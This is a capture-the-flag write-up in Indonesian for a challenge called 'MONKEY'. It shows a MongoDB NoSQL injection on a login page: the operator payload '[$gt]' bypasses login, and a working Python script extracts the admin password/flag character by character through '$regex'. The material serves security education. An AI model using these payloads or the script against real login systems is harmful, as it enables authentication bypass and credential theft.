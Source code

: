 # **MONKEY**
description ....
## **About the challenge**
Pada Challenge ini, Probleset meminta pemain untuk login sebagai admin danmemberikan halaman login serta akun guest:guest untuk masuk.

![monkey](./image/monkey.PNG)
## **Solution**
Saya mencoba login dan hanya muncul pesan "Welcome, guest". Ditambah dengan gambar monyet yang sedikit ngeselin. Tujuan saya adalah untuk login sebagai admin. Setelah saya login sebagai admin, tidak ada flag yang tertera. Tempat injeksi yang mungkin adalah halaman login.

Tentu saja hal pertama yang saya adalah injeksi SQL, tetapi setelah mencoba-coba dengan halaman login untuk beberapa waktu, saya mengerti bahwa itu tidak ada hubungannya dengan SQL. Cara selanjutnya adalah mencoba NoSQL dan kemudian saya mendapatkan hasil yang sangat menarik. Dari injeksi awal, tampaknya basis data backend menggunakan MongoDB dan saya memutuskan untuk membaca sedikit lebih banyak tentangnya.

Secara sederhana, MongoDB bekerja seperti ini:

Request: ```login.php?user=admin&password=1```

```php
$collection->find(array(
    "username" => "admin",
    "password" => "1"
));
```
---------------------------
Username dan password dikumpulkan dari data yang masuk dan database langsung dicari menggunakan data tersebut. 
Lalu bagaimana jika kita dapat melewatkan objek atau array?

Request: ```login.php?user[$gt]=&password[$gt]=```
```php
$collection->find(array(
    "username" => array("$gt" => 1),
    "password" => array("$gt" => 1)
));
```
Ini akan menghindari skema Autentikasi dan akan memasukkan kita langsung ke akun pertama di database, yaitu admin! Jadi sekarang kita sudah masuk sebagai admin! Tetapi flag-nya adalah password admin jadi saya perlu mengekstraknya. Saya mencari di Google cara mengekstrak data tetapi tidak memberi saya banyak pilihan. Kemudian saya mengetahui tentang $regex yang digunakan untuk membandingkan karakter password satu per satu. Jadi berikut adalah logikanya:

saya menginisiasi permintaan dengan ```user=admin&password[$regex]=F.*```. Anda dapat melihat bahwa ini memberikan pengalihan ```302``` karena password dimulai dengan F (karena password adalah flag dan sesuai dengan aturan, flag dimulai dengan ```ForestyHC```). Untuk semua karakter lainnya, itu memberikan kode status ```200```. saya dapat dengan mudah mengotomatiskan ini untuk menemukan sisa password.

saya menggunakan script dibawah ini
```python
import requests
import string

# We are sure that password is the flag which starts with "TWCTF{"
# and ends with "}"

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```
Skrip berfungsi sebagai berikut:

1) Karena kata sandi adalah flag, kita yakin bahwa kata sandi dimulai dengan ```FOrestyHC{```ga hal ini dapat digunakan untuk memverifikasi apakah yang kita lakukan adalah benar.

2) Saya berasumsi bahwa karakter seperti +, * dan & tidak akan ada karena dapat mengganggu Regex (dan untungnya tidak ada!)

3) Skrip berhenti ketika kami mendapatkan pengalihan 302 ketika karakternya adalah } karena kami yakin bahwa karakter akhir akan menjadi } (lagi, karena kata sandi sama dengan bendera).
And we got flag
```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
